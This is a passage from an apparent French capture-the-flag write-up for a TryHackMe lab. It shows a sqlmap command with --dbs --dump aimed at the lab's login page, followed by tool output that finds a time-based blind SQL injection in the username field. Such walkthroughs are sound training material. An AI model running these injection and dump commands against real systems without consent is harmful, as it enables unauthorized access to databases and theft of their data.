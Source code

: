 ```bash
</html>

```

Dans le code source on remarque qu'il y a deux entrés de saisie qui ont comme noms username et  password.    
De plus il y une validation qui port comme nom submit et de valeur submit.   
On peut avec la méthode POST envoyer une injections.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sqlmap -u http://ctf-collection-vol2.thm/login/index.php --data="username=1&password=2&submit=submit" --dbs --dump
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.5.8#stable}
|_ -| . [(]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 20:27:19 /2021-08-23/

[20:27:19] [INFO] testing connection to the target URL
[20:27:19] [INFO] checking if the target is protected by some kind of WAF/IPS
[20:27:19] [INFO] testing if the target URL content is stable
[20:27:20] [INFO] target URL content is stable
[20:27:20] [INFO] testing if POST parameter 'username' is dynamic
[20:27:20] [WARNING] POST parameter 'username' does not appear to be dynamic
[20:27:20] [WARNING] heuristic (basic) test shows that POST parameter 'username' might not be injectable
[20:27:20] [INFO] testing for SQL injection on POST parameter 'username'
[20:27:20] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[20:27:20] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[20:27:20] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[20:27:21] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[20:27:21] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[20:27:21] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[20:27:21] [INFO] testing 'Generic inline queries'
[20:27:21] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[20:27:22] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[20:27:22] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[20:27:22] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[20:27:33] [INFO] POST parameter 'username' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] 
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] 
[20:27:43] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[20:27:43] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[20:27:44] [INFO] target URL appears to be UNION injectable with 2 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] 
[20:27:46] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql') 
[20:27:46] [INFO] checking if the injection point on POST parameter 'username' is a false positive
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 91 HTTP(s) requests:
```